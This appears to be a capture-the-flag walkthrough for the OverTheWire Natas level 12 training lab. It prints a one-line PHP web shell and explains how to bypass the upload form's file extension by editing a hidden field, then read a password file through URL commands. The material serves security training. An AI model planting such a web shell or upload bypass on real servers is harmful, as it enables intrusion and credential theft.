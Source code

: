 # 🔐 Natas 12 Walkthrough 

You'll see an upload form that allows uploading an image file. It mentions that it checks the file type.

```html
<form enctype="multipart/form-data" action="index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input name="uploadedfile" type="file" />
  <input type="submit" value="Upload File" />
</form>
```
***Let's test it.***

## 🐚 Upload a PHP Shell to the Server

Try uploading a `.php` file disguised as an image. Here's a simple payload to retrieve the password:

```php
<?php echo shell_exec($_GET['e'] . ' 2>&1'); ?>
```
### What does this code do?

- `$_GET['e']` retrieves the value of the `e` parameter from the URL query string.  
  Example: If the URL is `script.php?e=ls`, then `$_GET['e']` will be `'ls'`.

- `. ' 2>&1'` appends `' 2>&1'` to the command. This redirects `stderr` (file descriptor 2) to `stdout` (file descriptor 1), so both standard output and error messages are captured together.

- `shell_exec()` executes the complete shell command on the server. It returns the output of the command, including errors (because of `2>&1`).

- `echo` outputs the result of `shell_exec()` to the browser/user.



Save your script as `shell.php` and upload it using the form. However, you'll notice that the server renames the uploaded file to something like `<randomstring>.jpg`. This is a problem because `.jpg` files are not parsed as PHP, so **your code won’t execute.**

To get around this, we need to manipulate the upload request so that the file is saved with a `.php` extension on the server.

### 🛠️ How to change the filename

Inspect the page and look for this hidden input:
```
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.jpg">
```
***Change it to:***
```
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.php">
```
This ensures that your uploaded file gets saved as a `.php` file and will be executed by the server.

## 🔎 Getting the natas13 Password

As we know, the passwords are stored in `/etc/natas_webpass/natasX`. We want to read the contents of:

```
/etc/natas_webpass/natas13
```

Clicking on the uploaded file shows this error:
```
Notice: Undefined index: e in /var/www/natas/natas12/upload/r3bkauo8pd.php on line 4
```
As expected bacause we added this variable in our code. This tells us we need to supply a value to the `e` parameter in the URL.

### ✅ Example: Listing directory contents

To list files in the current directory, use the `ls` command via the URL like so:

```
http://natas12.natas.labs.overthewire.org/upload/r3bkauo8pd.php?e=ls
```
If that works, you should see a list of files.

### 🧠 Now use `cat` to read the password file:
```
http://natas12.natas.labs.overthewire.org/upload/r3bkauo8pd.php?e=cat%20/etc/natas_webpass/natas13
```
> [!CAUTION]  
> You **must** use `%20` (URL encoding for space) in the URL. Using a literal space will result in an error!

If done correctly, you'll be shown the password for **natas13**. 


>[!IMPORTANT]
>📝 The full script with a commented explanation is provided in the `natas12` directory. Feel free to use it while debugging your code. Good luck!
